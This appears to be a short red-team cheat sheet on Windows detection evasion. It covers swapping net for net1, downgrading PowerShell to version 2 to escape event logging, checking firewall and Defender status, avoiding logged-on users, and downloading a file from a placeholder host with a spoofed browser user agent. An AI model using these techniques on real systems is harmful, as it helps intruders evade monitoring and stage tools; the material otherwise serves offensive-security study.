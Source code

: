 ```yaml
---
tags:
  - windows
  - evasive
---
```

# Logging Evasion
## Command Alias
### [[Net]]
`net` can be replaced with `net1` to avoid potential trigger of `net` string.
## Downgrade Powershell
Powershell event logging was introduced with version 3.0 onwards.
```powershell
PS > Get-host
PS > powershell.exe -version 2
```
Check Powershell logs!
# Checking Defenses
## Firewall Checks
```powershell
PS > netsh advfirewall show allprofiles
```
## Windows Defender Check
```cmd
> sc query windefend
```
## Other Anti-Malware Check
```powershell
PS > Get-MpComputerStatus
```
# User Presence
Avoid alerting other logged-on users:
```powershell
PS > qwinsta
```
# User Agent
- Windows
```powershell
PS > [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
```powershell
PS > $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS > Invoke-WebRequest http://<IP>[:<PORT>]/file -UserAgent $UserAgent -OutFile "file"
```